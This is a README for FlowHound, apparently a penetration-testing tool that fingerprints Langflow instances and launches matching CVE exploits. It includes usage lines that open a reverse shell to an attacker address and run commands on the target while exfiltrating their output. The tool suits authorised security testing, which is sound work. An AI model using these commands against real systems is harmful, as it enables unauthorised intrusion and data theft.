


# FlowHound



Automated exploitation platform for scanning and testing insecure [Langflow](https://github.com/langflow-ai/langflow) deployments.

## Documentation

Full documentation is available at **[flowhound.readthedocs.io](https://flowhound.readthedocs.io/)**.

## Installation

```bash
pip install .
```

## Usage

FlowHound exposes two sub-commands: `attack` and `sniff`.

### `attack` — launch exploits against a target

```
flowhound attack --url <target-url> [OPTIONS]
```

| Option | Required | Description |
|---|---|---|
| `--url` | Yes | URL of the target Langflow instance (e.g. `http://localhost:7860`) |
| `--username` | No | Langflow username — must be paired with `--password` |
| `--password` | No | Langflow password — must be paired with `--username` |
| `--autopwn` | No | Run all matching exploits instead of stopping at the first success |
| `--proxy` | No | HTTP(s) proxy to route traffic through (e.g. `http://127.0.0.1:8080`) |
| `--command` | No | Shell command to execute on the target via the `execute_bash_command` payload |
| `--reverse_shell` | No | `LHOST:LPORT` for a reverse TCP shell payload (e.g. `192.168.1.10:4444`) |
| `-h`, `--help` | No | Show help message |

> `--command` and `--reverse_shell` are mutually exclusive. `--username` and `--password` must always be supplied together.

### `sniff` — detect version and list applicable CVEs

```
flowhound sniff --url <target-url> [--proxy <proxy-url>]
```

| Option | Required | Description |
|---|---|---|
| `--url` | Yes | URL of the target Langflow instance |
| `--proxy` | No | HTTP(s) proxy to route traffic through |
| `-h`, `--help` | No | Show help message |

### Examples

Unauthenticated attack (stops at first successful exploit):
```bash
flowhound attack --url http://target.example.com:7860
```

Authenticated attack (includes auth-required CVEs):
```bash
flowhound attack --url http://target.example.com:7860 --username admin --password secret
```

Run all matching exploits with a custom command payload:
```bash
flowhound attack --url http://target.example.com:7860 --autopwn --command "whoami"
```

Catch a reverse shell:
```bash
flowhound attack --url http://target.example.com:7860 --reverse_shell 192.168.1.10:4444
```

Route all traffic through a proxy:
```bash
flowhound attack --url http://target.example.com:7860 --proxy http://127.0.0.1:8080
```

Detect the target Langflow version and list applicable CVEs without launching any exploits:
```bash
flowhound sniff --url http://target.example.com:7860
```

## Architecture



## How it works

1. **Version detection** — queries `/api/v1/version` on the target to determine the running Langflow version.
2. **CVE lookup** — queries the bundled `vulnerabilities.json` database for CVE records whose affected version range covers the detected version. Authentication-required exploits are only included when credentials are supplied.
3. **Exploit dispatch** — dynamically loads each matching exploit module and executes it. Unauthenticated RCE exploits are prioritised. Each exploit is run with a 60-second timeout; timed-out exploits are skipped automatically.
4. **Payload injection** — when `--command` or `--reverse_shell` is specified the corresponding payload is injected into each exploit rather than the built-in default.

## CVE coverage

| CVE ID | CVSS | Auth Required | Affected Versions |
|---|---|---|---|
| CVE-2026-9198 | 10.0 | No | 1.0.0 – 1.10.0 |
| CVE-2026-0768 | 9.8 | No | 1.4.2 |
| CVE-2026-19295 | 9.9 | Yes | 1.0.0 – 1.11.1 |
| CVE-2026-19286 | 9.8 | Yes | 1.11.0 – 1.11.1 |
| CVE-2026-18729 | 8.8 | Yes | 1.0.0 – 1.11.1 |
| CVE-2026-5027 | 8.8 | Yes | 1.0.0 – 1.8.4 |
| CVE-2026-7873 | 8.8 | Yes | 1.0.0 – 1.10.0 |
| CVE-2026-10134 | 8.8 | Yes | 1.0.0 – 1.9.3 |

## Payloads

| Payload | CLI flag | Description |
|---|---|---|
| `execute_bash_command` | `--command "<cmd>"` | Runs an arbitrary shell command and exfiltrates stdout |
| `reverse_tcp_shell` | `--reverse_shell LHOST:LPORT` | Opens a reverse TCP shell back to the attacker (blocking) |

When no payload flag is given each exploit falls back to its built-in default (runs `id` and exfiltrates the result).

## Project structure

```
flowhound/
├── __main__.py                  # CLI entry point; registers attack and sniff commands
├── cli/
│   ├── command.py               # attack and sniff Click command definitions
│   ├── validators.py            # URL, proxy, and CVE input validators
│   ├── banner.py                # ASCII-art banner
│   └── message_format.py       # Coloured logging handler (ClickLogHandler)
└── vulnerabilities/
    ├── cve/cve.py               # CVE data model; dynamically loads exploit modules
    ├── io/
    │   ├── database.py          # Reads vulnerabilities.json; filters by version & auth
    │   ├── version_detection.py # Queries /api/v1/version; version string ↔ tuple helpers
    │   └── vulnerabilities.json # Bundled CVE data store
    ├── exploits/
    │   ├── base_exploit_class.py  # Abstract base; auto_login / authenticate helpers
    │   └── cve_2026_*.py          # Individual exploit PoC modules
    └── payloads/
        ├── base_payload_class.py  # Abstract base; generate_payload / load_payload interface
        ├── execute_bash_command.py
        └── reverse_tcp_shell.py
```

## Requirements

- Python 3.10+
- `requests >= 2.32.3`
- `click >= 8.1.8`

## Running tests

```bash
pip install pytest
pytest flowhound/tests/
```

## Disclaimer

FlowHound is intended for authorised security testing only. Do not run it against systems you do not own or have explicit written permission to test.
